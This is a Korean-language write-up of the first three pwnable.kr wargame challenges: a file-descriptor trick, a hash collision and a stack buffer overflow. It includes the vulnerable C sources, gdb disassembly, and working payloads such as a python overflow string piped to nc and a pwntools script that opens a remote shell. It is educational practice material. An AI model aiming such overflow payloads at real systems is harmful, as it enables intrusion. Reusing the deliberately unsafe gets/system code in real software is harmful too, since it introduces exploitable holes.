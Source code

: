 
#Pwnable.kr 문제 풀이
-------
1. https://icmp-ycdi.tistory.com/48
    ```cpp
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    char buf[32];
    int main(int argc, char* argv[], char* envp[]){
            if(argc<2){
                    printf("pass argv[1] a number\n");
                    return 0;
            }
            int fd = atoi( argv[1] ) - 0x1234;
            int len = 0;
            len = read(fd, buf, 32);
            if(!strcmp("LETMEWIN\n", buf)){
                    printf("good job :)\n");
                    system("/bin/cat flag");
                    exit(0);
            }
            printf("learn about Linux file IO\n");
            return 0;

    }
    ```
   - 리눅스 File descriptor 응용
   - ssize_t read (int fd, void *buf, size_t nbytes)
   - fd의 경우 0: 표준입력, 1: 표준출력, 2: 표준에러
   - 표준입력을 받을 수 있도록 해야 flag가 표시됨
   - 고로 인자로 0x1234 -> 4660 입력 후 LETMEWIN 입력
   - cat flag를 하면 permission denied가 발생하지만, system 함수는 터미널 제어권을 루트 권한으로 가져갈 수 있는 함수이므로 매우 강력하게 사용될 수 있음. (Command Injection)
   - https://velog.io/@aqaqsubin/Linux-system-%EB%AC%B8%EC%A0%9C%EC%A0%90


2. https://icmp-ycdi.tistory.com/49
    ```Cpp
    #include
    #include
    unsigned long hashcode = 0x21DD09EC;
    unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
            res += ip[i];
        }
        return res;
    }

    int main(int argc, char* argv[]){
        if(argc<2){
            printf("usage : %s [passcode]\n", argv[0]);
            return 0;
        }
        if(strlen(argv[1]) != 20){
            printf("passcode length should be 20 bytes\n");
            return 0;
        }

        if(hashcode == check_password( argv[1] )){
            system("/bin/cat flag");
            return 0;
        }
        else
            printf("wrong passcode.\n");
        return 0;
    }
    ```

   - 입력한 데이터가 최종적으로 0x21DD09EC가 되도록
   - res = ip[0] + ip[1] + ip[2] + ip[3] + ip[4]
   - 20바이트의 문자열을 4바이트씩 나누어서 5번 res에 저장
   - ip[0] + ip[1] + ip[2] + ip[3] + ip[4] 의 결과가 0x21DD09EC가 되어야 함.
   - 가장 쉬운방법은 0x21DD09EC을 5로 나눈 결과값은 0x6C5CEC8을 네번, 이후 0x6C5CECC 입력해야 함
   - 0x21DD09EC를 입력하고 0x00000000을 입력하려고 할수도 있지만 ascii 코드 상 09가 Tab이므로 console 상 입력하려면 문제가 생길 수 있음.
   - 고로 가장 쉬운 방법을 따르자면 아래와 같음 (ascii 코드 상 문제만 없으면 숫자는 바뀔 수 있음.)
   - ./col `python -c 'print "\xC8\xCE\xC5\x06"*4+"\xcc\xce\xc5\x06"'`
   - 단 x86 시스템은 Little endian 을 사용하기 때문에 위와 같이 입력해줘야 함.
   - 참고로 python에서 print "\x41" 을 출력하면 ASCII값을 기준으로 A를 출력하므로 참고할 것


3. https://icmp-ycdi.tistory.com/50
   - 버퍼 오버플로우를 이용한 문제.
   - nc를 이용해 문제를 품, ssh가 아닌 cat으로 값을 넘겨줌
   - Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?

   - Download : http://pwnable.kr/bin/bof
   - Download : http://pwnable.kr/bin/bof.c
   - Running at : nc pwnable.kr 9000

   - wget http://pwnable.kr/bin/bof
   - wget http://pwnable.kr/bin/bof.c
   - 상기 두 파일을 다운로드, 파일 내용은 아래와 같음.
   ```Cpp
   #include <stdio.h>
   #include <string.h>
   #include <stdlib.h>
   
   void func(int key){
       char overflowme[32];
       printf("overflow me : ");                                                        
       gets(overflowme);    // smash me!
       if(key == 0xcafebabe){
           system("/bin/sh");
       }
       else{
           printf("Nah..\n");
       }
   }
   
   int main(int argc, char* argv[]){
       func(0xdeadbeef);
       return 0;
   }
   ```
   - key 값을 0xcafebabe로 만들어야 함.
   - 즉 bof 실행 프로그램의 구조를 정확하게 파악해야함 (gdb 사용)
   - https://mintnlatte.tistory.com/581 (gdb 명령어 정리)
   - gdb의 disas 명령어를 통해 assmebly 
   - gdb bof 를 통해 gdb를 실행한 후 아래와 같은 명령어를 통해 각 함수의 메모리 덤프를 땀.
   - disas main
   ```
   Dump of assembler code for function main:
   0x0000068a <+0>:	push   %ebp
   0x0000068b <+1>:	mov    %esp,%ebp
   0x0000068d <+3>:	and    $0xfffffff0,%esp
   0x00000690 <+6>:	sub    $0x10,%esp
   0x00000693 <+9>:	movl   $0xdeadbeef,(%esp) <- 키 값
   0x0000069a <+16>:	call   0x62c <func> <---func 호출
   0x0000069f <+21>:	mov    $0x0,%eax
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
   End of assembler dump.
   ```
   - disas func
   ```
   Dump of assembler code for function func:
   0x0000062c <+0>:	push   %ebp
   0x0000062d <+1>:	mov    %esp,%ebp
   0x0000062f <+3>:	sub    $0x48,%esp
   0x00000632 <+6>:	mov    %gs:0x14,%eax
   0x00000638 <+12>:	mov    %eax,-0xc(%ebp)
   0x0000063b <+15>:	xor    %eax,%eax
   0x0000063d <+17>:	movl   $0x78c,(%esp)
   0x00000644 <+24>:	call   0x645 <func+25> <-- printf
   0x00000649 <+29>:	lea    -0x2c(%ebp),%eax <--overflowme
   0x0000064c <+32>:	mov    %eax,(%esp)
   0x0000064f <+35>:	call   0x650 <func+36> <---gets
   0x00000654 <+40>:	cmpl   $0xcafebabe,0x8(%ebp) <-- compare (if문)
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	movl   $0x79b,(%esp)
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	movl   $0x7a3,(%esp)
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    -0xc(%ebp),%eax
   0x0000067a <+78>:	xor    %gs:0x14,%eax
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
   End of assembler dump.
   ```
   - 여기서 문제의 힌트는 gets 함수를 이용해 공격하라고 함.
   - gets 함수는 읽어들일 문자열의 양이 지정되지 않았기 떄문에 overflow를 발생시키기 충분함. gets로 받는 주소는 overflowme[32]
   - overflowme와 key의 주소를 정확하게 파악하여 원하는 값을 넣는것이 관건
   - key의 주소는 쉽게 유추 가능함. if문 기준으로 0x8(%ebp)가 key의 위치, 이때 gdb에서의 해당 의미는 %ebp + 8위치
   - http://ehpub.co.kr/gets-%ED%95%A8%EC%88%98/
   - gets함수는 인자로 문자열을 저장할 버퍼 주소가 들어가는데, 이때 값을 받기 이전에 인자를 정리하기 위한 부분이 mov -0x2c(%ebp), eax 임.
   - 즉 overflowme의 시작 주소는 %ebp - 0x2c
   - 즉 0x2c + 8 = 0x34 byte만큼의 offset이 존재하므로 dword 기준 52개 이후 0xcafebabe를 입력해야 함.
   - 이때 bof 의 내용으로 보면, 실제 함수 실행시 인자로 (argv) 값을 넣어주는게 아닌 gets로 실행함.
   - 이때 문제에서 주어진 힌트인 pwnable.kr에 nc(netcat)으로 접근 
   - https://whackur.tistory.com/166
   - 이때 정방향 쉘 연결을 이용해 공격
   - (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
   - cat flag -> daddy, I just pwned a buFFer :)
   - 이때 이 nc 의 기능은 파이썬  pwntools 에서도 사용 가능
   - pip install pwntools
   ```Python
   #!/usr/bin/python
   from pwn import *

   payload = 'A' * 52 + '\xbe\xba\xfe\xca'
   shell = remote('pwnable.kr',9000)
   shell.send(payload)
   shell.interactive()
   ```
   - 상기와 같이 공격하는 방법도 존재함.

